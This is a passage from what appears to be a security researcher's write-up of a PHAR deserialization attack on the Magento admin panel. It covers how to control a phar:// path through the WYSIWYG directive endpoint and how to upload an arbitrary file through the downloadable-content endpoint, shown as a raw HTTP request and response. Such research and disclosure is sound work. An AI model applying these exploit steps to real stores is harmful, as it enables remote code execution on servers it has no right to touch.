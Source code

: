The example url shown above uses a feature that allows to use relative paths to the media folder, hence the "media url" directive. It is also possible to include the full path of the image instead, as follows `https://target/index.php/admin/cms/wysiwyg/directive/___directive/​base64('phar:///path/to/image')​/key/1cf...674/`. The base64 function included in the path is only representative, in its place should be the url (including the phar scheme) encoded as base64.

That is the first requirement to exploit a PHAR deserialization, control the path of a stream/file operation. The second requirement is to find a way to upload a crafted phar archive to the server.

### Upload the phar archive
There are multiple ways to upload files in magento. An employee can upload product images and other multimedia files from the WYSIWYG module. It is possible to upload the crafted PHAR file as a polyglot image.

A simpler method consist on making a request to the endpoint used to upload digital content of a product. The advantage is that there is no need to generate a polyglot because any type of file is allowed.

```http
POST /index.php/admin/admin/downloadable_file/upload/type/links/?isAjax=true HTTP/1.1
Host: target
Content-Type: multipart/form-data; boundary=---------------------------183543164110924
Content-Length: 421
Cookie: admin=f7o48naeganqn1m5nhaf5epcpf

-----------------------------183543164110924
Content-Disposition: form-data; name="form_key"

AVEctGhHMHu7HyE9
-----------------------------183543164110924
Content-Disposition: form-data; name="links"; filename="test.txt"
Content-Type: text/plain

test file
-----------------------------183543164110924
Content-Disposition: form-data; name="param_name"

links
-----------------------------183543164110924--
```

```http
HTTP/1.1 200 OK
Content-Length: 87
Content-Type: application/json

{"name":"test.txt","type":"text\/plain","error":0,"size":9,"file":"\/t\/e\/test.txt"}
```

Two of the three requirements to execute the exploit are satisfied. It is possible to upload an arbitrary file and obtain its path on the server, and it is also possible to control the entire path (with schema) on a file operation to perform a phar deserialization. What lefts is to craft a phar file that, upon deserialization, executes arbitrary code on the server.

